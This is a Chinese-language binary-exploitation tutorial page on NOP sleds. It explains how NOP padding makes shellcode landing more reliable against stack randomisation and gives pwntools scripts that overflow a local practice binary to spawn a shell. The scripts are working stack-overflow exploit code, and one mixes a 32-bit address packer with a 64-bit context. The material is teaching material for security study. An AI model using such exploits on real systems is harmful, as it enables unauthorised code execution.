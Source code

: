 ```yaml
---
title: 'NOPs'
date: '2023-08-08'
lastmod: '2023-08-20'
tags: ['PWN', 'Stack']
draft: false
summary: '更可靠的 shellcode'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

由于在调试工具里得到的返回地址和正常运行时并不一致（这是运行时环境变量等因素有所不同造成的），所以这种情况下我们只能得到大致但不确切的 shellcode 起始地址，解决办法是在溢出 Padding 前面填充若干长度的 NOP。

NOP，无操作 (**N**o **OP**eration) 指令的作用正如其名：什么也不做。所以在运行到 NOP 指令的时候只会使程序计数器加一，而不会发生其它的事情。这是一种可以破解栈随机化的缓冲区溢出攻击方式。攻击者通过填充字符串注入攻击代码，在实际的攻击代码前注入很长的 NOP 指令序列，只要程序的控制流指向该序列任意一处，都可以无副作用地跳转到 shellcode 的起始处，这允许我们有更大的误差范围，因为向前或向后移动几个字节不会影响程序的正常运行。这与直接运行 shellcode 具有相同的效果。这种 NOP Padding 通常被称为 NOP Slide 或 NOP Sled（俗称「滑雪橇」），因为 EIP 本质上是沿着它们 Slide 的。这样我们就可以通过增加 NOP 填充来试验 shellcode 的起始地址。NOP Sled 可以帮助攻击者提高访问到自己的攻击代码的概率。

[地址空间配置随机化 (ASLR)](https://zh.wikipedia.org/wiki/%E4%BD%8D%E5%9D%80%E7%A9%BA%E9%96%93%E9%85%8D%E7%BD%AE%E9%9A%A8%E6%A9%9F%E8%BC%89%E5%85%A5) 指程序运行时栈的起始地址是随机的，所以程序中存放各函数返回地址的地址也会发生对应的改变。可防止运行相同程序的相同系统因易预测栈地址而被攻击。

由于栈地址在一定范围的随机性，攻击者不能够知道攻击代码注入的地址，而要执行攻击代码需要将函数的返回地址更改为攻击代码的地址（可以通过缓冲区溢出的方式篡改函数的返回地址）。所以，只能在一定范围内（栈随机导致攻击代码地址一定范围内随机）枚举攻击代码的地址（有依据的猜）。

<Note>
  为了尝试破解 $2^{23}$ 的随机化，则需要枚举 $2^{23}$ 个返回地址。而使用 NOP Sled 的方式，若枚举一个 $2^{8}$ Bytes 的 NOP sled，则只需要枚举 $2^{23} / (2^{8} + 1)$ 个返回地址即可，因为每次枚举出的地址只要是 $2^{8}$ 中的之一就可以。（攻击代码本身有一个起始地址，所以为 $255 + 1$）
</Note>

不用 NOP Sled，函数返回地址 ---> 攻击代码<br />
使用 NOP Sled，函数返回地址 ---> NOP 序列（顺序执行）直到攻击代码地址

在 Intel x86 汇编中，NOP 指令是 `\x90`。

NOP 指令是 `XCHG EAX, EAX` 的别名（32 bit 系统中），它实际上什么也不做。你可以在这个 [问题](https://stackoverflow.com/questions/25008772/whats-the-difference-between-the-x86-nop-and-fnop-instructions) 上阅读更多相关信息。

## 0x01 更新 Exploit

现在可以对我们的 EXP 进行一些细微的更改，以完成两件事：

- 添加大量 NOP Padding
- 调整我们的返回地址以指向 NOP 的中间而不是缓冲区的开头

<Warning>
  确保 ASLR 仍处于禁用状态。你可能需要重新调整之前的 EXP，因为缓冲区位置可能会有所不同。
</Warning>

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = b'\x90' * 240             # 构建 NOPs
payload += asm(shellcraft.sh())     # 构建 shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664 + 120)    # 缓冲区地址 + 一半 NOPs 长度

p.sendline(payload)

p.interactive()
```

<Warning>
  值得一提的是：带有 NOP 的 shellcode 并不是万无一失的。如果出现用 NOP Sled 造成的意外错误，但 shellcode 在使用 NOP Sled 之前可以正常工作，请尝试减少 NOP Sled 的长度，因为它可能会篡改栈上的其它内容。
</Warning>

**NOP 在某些架构中不是 `\x90`。如果你需要其他架构的 NOP，可以使用 pwntools：**

```python showLineNumbers
nop = asm(shellcraft.nop())
```

## 0x02 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.nop()) * 240  # 构建 NOPs
payload += asm(shellcraft.sh())        # 构建 shellcode
payload = payload.ljust(312, b'A')     # 溢出 Padding
payload += p32(0xffffd664 + 120)       # 缓冲区地址 + 一半 NOPs 长度

p.sendline(payload)

p.interactive()
```

